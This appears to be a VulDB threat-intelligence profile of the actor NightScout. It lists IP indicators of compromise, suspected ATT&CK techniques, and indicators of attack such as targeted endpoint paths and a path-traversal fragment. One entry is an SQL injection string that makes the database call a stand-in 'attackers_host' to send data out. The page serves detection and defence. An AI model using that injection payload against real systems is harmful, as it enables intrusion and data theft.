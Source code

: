 # NightScout - Cyber Threat Intelligence

The indicators are related to [VulDB CTI analysis](https://vuldb.com/?doc.cti) of the actor known as [NightScout](https://vuldb.com/?actor.nightscout). The activity monitoring correlates data from social media, forums, chat rooms, and darknet markets. It helps to determine associated actors, activities, intentions, emerging research, and attacks. Our unique predictive model is able to forecast activities and their characteristics.

Live data and more analysis capabilities are available at [https://vuldb.com/?actor.nightscout](https://vuldb.com/?actor.nightscout)

## Campaigns

The following campaigns are known and can be associated with NightScout:

* NightScout

## Countries

These countries are directly (e.g. origin of attacks) or indirectly (e.g. access by proxy) associated with NightScout:

* CN
* US

## IOC - Indicator of Compromise

These indicators of compromise indicate associated network ressources which are known to be part of research and attack activities of NightScout.

ID | IP address | Hostname | Confidence
-- | ---------- | -------- | ----------
1 | 45.158.32.65 | - | High
2 | 103.255.177.138 | - | High
3 | 185.239.226.172 | - | High
4 | ... | ... | ...

There are 1 more IOC items available. Please use our online service to access the data.

## TTP - Tactics, Techniques, Procedures

Tactics, techniques, and procedures summarize the suspected ATT&CK techniques used by NightScout. This data is unique as it uses our predictive model for actor profiling.

ID | Technique | Description | Confidence
-- | --------- | ----------- | ----------
1 | T1059.007 | Cross Site Scripting | High
2 | T1068 | Execution with Unnecessary Privileges | High

## IOA - Indicator of Attack

These indicators of attack list the potential fragments used for technical activities like reconnaissance, exploitation, privilege escalation, and exfiltration by NightScout. This data is unique as it uses our predictive model for actor profiling.

ID | Type | Indicator | Confidence
-- | ---- | --------- | ----------
1 | File | `/+CSCOE+/logon.html` | High
2 | File | `/cgi-bin/wapopen` | High
3 | File | `iesfootprint.jsp` | High
4 | File | `login_meeting.cgi` | High
5 | Library | `ContentStore/Base/CVDataPipe.dll` | High
6 | Argument | `FILECAMERA` | Medium
7 | Argument | `src` | Low
8 | Input Value | `../..` | Low
9 | Input Value | `11' AND utl_http.request('http://attackers_host/lalal')='1' GROUP BY panel_name)) --` | High

## References

The following list contains external sources which discuss the actor and the associated activities:

* https://vxug.fakedoma.in/archive/APTs/2021/2021.02.01/Operation%20NightScout.pdf

## Literature

The following articles explain our unique predictive cyber threat intelligence:

* [VulDB Cyber Threat Intelligence Documentation](https://vuldb.com/?doc.cti)
* [Cyber Threat Intelligence - Early Anticipation of Attacks](https://www.scip.ch/en/?labs.20201022)

## License

(c) [1997-2021](https://vuldb.com/?doc.changelog) by [vuldb.com](https://vuldb.com/?doc.about). All data on this page is shared under the license [CC BY-NC-SA 4.0](https://creativecommons.org/licenses/by-nc-sa/4.0/). Questions? Check the [FAQ](https://vuldb.com/?doc.faq), read the [documentation](https://vuldb.com/?doc) or [contact us](https://vuldb.com/?contact)!
